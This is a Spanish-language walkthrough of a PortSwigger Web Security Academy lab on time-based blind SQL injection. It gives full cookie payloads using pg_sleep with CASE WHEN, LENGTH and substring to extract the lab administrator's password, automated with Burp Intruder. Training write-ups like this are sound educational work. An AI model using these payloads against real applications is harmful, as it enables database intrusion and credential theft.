




# Write-up - PortSwigger SQLi Lab 14

Voy a hacer un laboratorio de Port Swigger. El lab 14 de SQLi.

URL del laboratorio: `https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval`

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## LAB 3: Blind SQL injection with time delays and information retrieval

## PARÁMETRO VULNERABLE

**TRACKING COOKIE**

## OBJETIVOS

- Explotar la **time based SQLi** y obtener la contraseña del `administrator`.
- Loggearnos como dicho usuario.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Teoría previa

Este laboratorio es una evolución del laboratorio anterior de **Blind SQL injection with time delays**.

En el laboratorio anterior solamente necesitábamos demostrar que podíamos provocar un retraso de tiempo con una función como `pg_sleep(10)`. En este caso, el objetivo es más completo: no solo hay que provocar un retraso, sino usar ese retraso para recuperar información sensible de la base de datos.

La aplicación:

- no devuelve los resultados de la consulta SQL;
- no muestra errores útiles;
- no cambia visualmente si una consulta devuelve filas o no;
- no muestra un mensaje tipo `Welcome back!`;
- pero sí procesa la consulta SQL de forma síncrona.

Esto significa que el único canal observable es el **tiempo de respuesta**.

La lógica del ataque es:

| Condición SQL | Resultado observable |
|---|---|
| TRUE | La respuesta tarda varios segundos |
| FALSE | La respuesta llega rápido |

Es decir, usamos el tiempo como si fuera una respuesta booleana.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 1) Confirmar que el parámetro es vulnerable a SQLi

Payload inicial:

```sql
' || pg_sleep(5)--
```

La finalidad de este payload no es extraer datos todavía. Solo queremos confirmar que la cookie `TrackingId` es vulnerable y que podemos ejecutar código SQL dentro de la consulta que hace la aplicación internamente.

Si el payload funciona, la base de datos ejecuta `pg_sleep(5)`, por lo que la respuesta HTTP tarda unos 5 segundos.

Esto confirma varias cosas:

- el valor de `TrackingId` se inserta dentro de una consulta SQL;
- la consulta no está correctamente parametrizada;
- podemos alterar la lógica de la query;
- el motor de base de datos entiende `pg_sleep`, así que estamos ante PostgreSQL;
- podemos usar el tiempo como canal de comunicación.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 2) Comprobar que la tabla `users` existe en la BBDD

Estructura base:

```sql
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
```

`CASE WHEN` funciona como un `if` dentro de SQL:

```sql
CASE
  WHEN condición THEN acción_si_true
  ELSE acción_si_false
END
```

En nuestro caso:

```sql
CASE WHEN (condición) THEN pg_sleep(10) ELSE pg_sleep(0) END
```

Si la condición es verdadera, la base de datos duerme 10 segundos. Si la condición es falsa, ejecuta `pg_sleep(0)`, que equivale a no esperar.

### Condición falsa

```sql
' || (SELECT CASE WHEN (1=0) THEN pg_sleep(10) ELSE pg_sleep(0) END) -- 
```

`1=0` es falso.

Resultado esperado:

- respuesta instantánea;
- `200 OK`;
- no hay retraso.

### Condición verdadera

```sql
' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END) -- 
```

`1=1` es verdadero.

Resultado esperado:

- respuesta con retraso de 10 segundos;
- `200 OK`;
- confirmación de que controlamos el retardo.

A partir de aquí solo tenemos que sustituir `1=1` por preguntas reales a la base de datos.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 3) Comprobar que el usuario `administrator` existe

Payload:

```sql
' || (SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END from users) --
```

Esta consulta pregunta:

> ¿Existe una fila en la tabla `users` cuyo `username` sea `administrator`?

Si existe:

- la condición `username='administrator'` se cumple;
- se ejecuta `pg_sleep(10)`;
- la respuesta tarda 10 segundos.

Si no existe:

- no se cumple la condición;
- se ejecuta `pg_sleep(0)`;
- la respuesta es inmediata.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 4) Obtener la longitud de la contraseña del usuario `administrator`

Payload base:

```sql
' || (SELECT CASE WHEN (username='administrator' and LENGTH (password) > 1) THEN pg_sleep(10) ELSE pg_sleep(0) END from users) --
```

Esta consulta pregunta:

> ¿La contraseña del usuario `administrator` tiene más de 1 carácter?

Si tarda 10 segundos, la respuesta es sí.

Podemos acotar la longitud probando distintos valores:

```sql
LENGTH(password) > 1
LENGTH(password) > 2
LENGTH(password) > 3
...
```

Cuando deja de retrasarse, encontramos el límite.

Ejemplo:

- `LENGTH(password) > 19` tarda 10 segundos;
- `LENGTH(password) > 20` responde rápido;

Entonces la longitud exacta es 20.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 5) Enumerar la contraseña del `administrator`

Payload base:

```sql
' || (SELECT CASE WHEN (username='administrator' and substring(password, 1, 1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END from users) --
```

Esta consulta pregunta:

> ¿El primer carácter de la contraseña del usuario `administrator` es `a`?

Si la respuesta tarda 10 segundos:

- el primer carácter es `a`.

Si la respuesta llega rápido:

- el primer carácter no es `a`.

Después se repite cambiando el carácter:

```sql
substring(password, 1, 1)='b'
substring(password, 1, 1)='c'
substring(password, 1, 1)='d'
...
```

Cuando una letra o número provoca retraso, ese es el carácter correcto para esa posición.

Después se cambia la posición:

```sql
substring(password, 2, 1)='a'
substring(password, 2, 1)='b'
...
```

Y se repite hasta completar las 20 posiciones.

Como hacer esto a mano sería muy lento, se usa Burp Intruder en modo **Cluster Bomb**.

- Payload 1: posición del carácter, de 1 a 20.
- Payload 2: carácter candidato, alfanumérico de longitud 1.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Laboratorio: Inyección SQL ciega con retrasos de tiempo y recuperación de información

Este laboratorio contiene una vulnerabilidad de inyección SQL ciega. La aplicación utiliza una cookie de seguimiento para analítica y realiza una consulta SQL que incluye el valor de la cookie enviada.

Los resultados de la consulta SQL no se devuelven, y la aplicación no responde de forma diferente dependiendo de si la consulta devuelve filas o produce un error. Sin embargo, dado que la consulta se ejecuta de forma síncrona, es posible provocar retrasos de tiempo condicionales para inferir información.

La base de datos contiene una tabla llamada `users`, con columnas llamadas `username` y `password`. Necesitas explotar la vulnerabilidad de inyección SQL ciega para averiguar la contraseña del usuario `administrator`.

Para resolver el laboratorio, inicia sesión como el usuario `administrator`.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Vamos a llevar a cabo esto de forma práctica

Le damos a empezar laboratorio y se nos abre la siguiente página web:

`https://0a6f00c9048ad2fd8082e9b3006600ed.web-security-academy.net/`

La página web tiene el aspecto de la imagen 1.


**Referencia a la imagen 1:** Vista inicial del laboratorio. La aplicación parece una tienda normal, pero la vulnerabilidad se encuentra en la cookie `TrackingId`.

Una vez dentro, abrimos burpsuitepro y en el navegador activamos el FoxyProxy para que en el HTTP History vayan apareciendo las distintas Requests mientras navegamos por la página.

Como ya nos da pistas la descripción del laboratorio, tenemos una cookie de rastreo que la aplicación usa internamente para hacer una consulta SQL.

Para ello, nos vamos a la categoria de Gifts:

```http
GET /filter?category=Gifts HTTP/1.1
```

Capturamos la petición de BurpSuite:

```http
GET /filter?category=Gifts HTTP/1.1

Host: 0a6400f703c4e4bb804d3f2f005a00d8.web-security-academy.net

Cookie: TrackingId=2izcdrDuL9NRJand; session=FIfUXtwUVucN8268DLWd9CSaX64mHF9A

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Referer: https://0a6400f703c4e4bb804d3f2f005a00d8.web-security-academy.net/

Upgrade-Insecure-Requests: 1

Sec-Fetch-Dest: document

Sec-Fetch-Mode: navigate

Sec-Fetch-Site: same-origin

Sec-Fetch-User: ?1

Priority: u=0, i

Te: trailers

Connection: keep-alive
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

Si le damos a **Send** nos devuelve:

```http
HTTP/2 200 OK
```

Ahora vamos meter en el Cookie:

```http
Cookie: TrackingId=2izcdrDuL9NRJand' || pg_sleep(5)--
```

Y vemos que efectivamente tarda 5 segundos en responder.

A la derecha abajo de BurpSuite hay un icono que muestra el tiempo de la response tras enviar send => imagen 2.


**Referencia a la imagen 2:** BurpSuite muestra un tiempo aproximado de 5 segundos (`5,144 millis`). Esto confirma que `pg_sleep(5)` se ha ejecutado.

Osea que confirmamos que el parámetro es vulnerable.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Paso 2: Comprobar que la tabla `users` existe en la BBDD

Usamos:

```sql
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
```

## Condición falsa

```sql
' || (SELECT CASE WHEN (1=0) THEN pg_sleep(10) ELSE pg_sleep(0) END) -- 
```

Cookie completa:

```http
Cookie: TrackingId=2izcdrDuL9NRJand' || (SELECT CASE WHEN (1=0) THEN pg_sleep(10) ELSE pg_sleep(0) END) --
```

Respuesta por la BBDD instantánea:

```http
200 OK
```

`1=0` es falso, por eso no se ejecuta `pg_sleep(10)`.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Condición verdadera

```sql
' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END) --
```

Y obtenemos a los 10 segundos la respuesta de la BBDD:

```http
200 OK
```

`1=1` es verdadero, por eso sí se ejecuta `pg_sleep(10)`.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Paso 3: Comprobar que existe el usuario `administrator` en la tabla `users`

```http
Cookie: TrackingId=2izcdrDuL9NRJand' || (SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END from users) --
```

Obtenemos a los 10 segundos la respuesta de la BBDD:

```http
200 OK
```

Esto confirma que existe el usuario `administrator`.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Paso 4: Obtener la longitud de la contraseña del usuario administrator

Probamos esto:

```http
Cookie: TrackingId=2izcdrDuL9NRJand' || (SELECT CASE WHEN (username='administrator' and LENGTH (password) > 1) THEN pg_sleep(10) ELSE pg_sleep(0) END from users) --
```

Y efectivamente tarda 10 segundos en responder.

Ahora ponemos, con el fin de acotar, a ver si es menor que 30:

```http
Cookie: TrackingId=2izcdrDuL9NRJand' || (SELECT CASE WHEN (username='administrator' and LENGTH (password) > 1 and LENGTH (password) < 30) THEN pg_sleep(10) ELSE pg_sleep(0) END from users) --
```

Y efectivamente vuelve a tardar 10 segundos.

Por tanto lo tenemos. La longitud está entre 1 y 30.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Fuerza bruta de longitudes con Intruder

Ahora para hacer fuerza bruta sobre las distintas longitudes, nos lo vamos a llevar al Intruder.

Y vamos a dejar la consulta de esta manera:

```http
Cookie: TrackingId=2izcdrDuL9NRJand' || (SELECT CASE WHEN (username='administrator' and LENGTH (password) < 30) THEN pg_sleep(10) ELSE pg_sleep(0) END from users) --;
```

El parámetro de fuerza bruta lo vamos a fijar en `30` con **Add §**, y de tipo número desde 1 hasta 30.

### Resource Pool

También vamos a **Resource Pool** y quitamos 10 peticiones concurrentes para que no se mezclen los tiempos.

En ataques time-based no queremos que vaya “más rápido”. Queremos que sea fiable.

Si se lanzan muchas peticiones a la vez, los tiempos se pisan entre sí y puede parecer que una respuesta ha tardado más o menos por culpa de otra.

Por eso creamos un nuevo resource pool con:

```text
Maximum concurrent Requests: 1
```

y lo mandamos (imagen 3).



**Referencia a la imagen 3:** Configuración del Resource Pool con una sola petición concurrente para medir correctamente los tiempos.

Para hasta la 20 tarda 10 segundos, a partir de esa respuesta inmediata.

Por tanto, sabemos que la contraseña es de **20 caracteres**.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Paso 5: Enumerar la contraseña del administrator

Payload base:

```http
Cookie: TrackingId=2izcdrDuL9NRJand' || (SELECT CASE WHEN (username='administrator' and substring(password, 1, 1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END from users) --;
```

Obtenemos respuesta inmediata, por tanto el primer carácter no es `a`.

Volvemos al Intruder y le damos a **Cluster Bomb Attack** para tener dos variables sobre las que hacer fuerza bruta.

## Primera variable

La primera variable sobre la que hacemos fuerza bruta es el segundo argumento de `substring`, el `1`:

```sql
substring(password, §1§, 1)
```

Tipo:

- `Numbers`
- From: `1`
- To: `20`

Esto sirve para ir carácter a carácter.

## Segunda variable

La segunda variable sobre la que hacemos fuerza bruta es la `a`:

```sql
substring(password, 1, 1)='§a§'
```

Tipo:

- `Brute forcer`
- carácter alfanumérico
- Min length: `1`
- Max length: `1`

También ponemos el resource pool de 1 petición concurrente solo y le damos a **Start Attack**.

Luego filtramos por columna **Response Received** (imagen 4).



**Referencia a la imagen 4:** Resultados del Cluster Bomb. Las respuestas lentas corresponden a caracteres correctos; las respuestas rápidas corresponden a caracteres incorrectos.

Las de los caracteres acertados son muy superiores a las de los que no:

- acertadas: alrededor de `10000 ms`
- fallidas: alrededor de `40-50 ms`

## ¿Por qué?

Porque cuando la combinación posición/carácter es correcta, se cumple esta condición:

```sql
username='administrator' and substring(password, posición, 1)='carácter'
```

Entonces se ejecuta:

```sql
THEN pg_sleep(10)
```

Por eso tarda unos 10 segundos.

Cuando la combinación es incorrecta, se ejecuta:

```sql
ELSE pg_sleep(0)
```

Por eso responde inmediatamente.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Reconstrucción de la contraseña

Vemos que la contraseña es:

```text
zn675lsg1dw2s35q4qj2
```

La reconstrucción se hace tomando las filas que han tardado aproximadamente 10 segundos:

- `Payload 1` indica la posición.
- `Payload 2` indica el carácter correcto.

Ordenando por `Payload 1`, se obtiene la contraseña completa.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Login final

Ahora nos vamos a **My Account** y nos logueamos con las credenciales:

```text
administrator
zn675lsg1dw2s35q4qj2
```

(imagen 5)



**Referencia a la imagen 5:** Login con el usuario `administrator` y la contraseña recuperada mediante time-based SQLi.

Y nos loguea como `administrator`, diciéndonos laboratorio resuelto (imagen 6).



**Referencia a la imagen 6:** Panel de cuenta del usuario `administrator` y banner de laboratorio resuelto.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Resumen técnico completo

En este laboratorio hemos aplicado una explotación time-based completa.

La metodología ha sido:

1. Identificar el parámetro vulnerable:
   - `TrackingId`

2. Confirmar ejecución SQL:
   - `pg_sleep(5)`

3. Crear un canal booleano temporal:
   - `CASE WHEN condición THEN pg_sleep(10) ELSE pg_sleep(0) END`

4. Confirmar el usuario objetivo:
   - `administrator`

5. Obtener la longitud de la contraseña:
   - comprobaciones con `LENGTH(password)`

6. Enumerar carácter por carácter:
   - `substring(password, posición, 1)='carácter'`

7. Automatizar con Intruder:
   - Cluster Bomb
   - Payload 1: posición
   - Payload 2: carácter

8. Interpretar resultados por tiempo:
   - ~10s = TRUE
   - respuesta rápida = FALSE

9. Reconstruir la contraseña:
   - `zn675lsg1dw2s35q4qj2`

10. Iniciar sesión como administrator.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Payloads clave utilizados

## Confirmar vulnerabilidad

```http
Cookie: TrackingId=2izcdrDuL9NRJand' || pg_sleep(5)--
```

## Condición falsa

```http
Cookie: TrackingId=2izcdrDuL9NRJand' || (SELECT CASE WHEN (1=0) THEN pg_sleep(10) ELSE pg_sleep(0) END) --
```

## Condición verdadera

```http
Cookie: TrackingId=2izcdrDuL9NRJand' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END) --
```

## Confirmar usuario administrator

```http
Cookie: TrackingId=2izcdrDuL9NRJand' || (SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END from users) --
```

## Longitud de contraseña

```http
Cookie: TrackingId=2izcdrDuL9NRJand' || (SELECT CASE WHEN (username='administrator' and LENGTH (password) > 1) THEN pg_sleep(10) ELSE pg_sleep(0) END from users) --
```

## Enumerar carácter

```http
Cookie: TrackingId=2izcdrDuL9NRJand' || (SELECT CASE WHEN (username='administrator' and substring(password, 1, 1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END from users) --;
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Credenciales obtenidas

```text
administrator : zn675lsg1dw2s35q4qj2
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Conclusión

Este laboratorio es una demostración completa de **Blind SQL Injection basada en tiempo con recuperación de información**.

La aplicación no muestra datos, no muestra errores y no cambia visualmente según la consulta.

Pero como la consulta SQL se ejecuta de forma síncrona, podemos usar el tiempo como canal lateral.

La idea clave es:

> La base de datos no habla con texto.
>
> Pero habla con tiempo.

Con `pg_sleep(10)` hemos conseguido convertir cada pregunta sobre la contraseña en una respuesta medible:

- tarda 10 segundos -> verdadero
- responde rápido -> falso

Así hemos recuperado la contraseña completa del usuario `administrator` sin verla directamente en ningún momento.

**Laboratorio resuelto.**
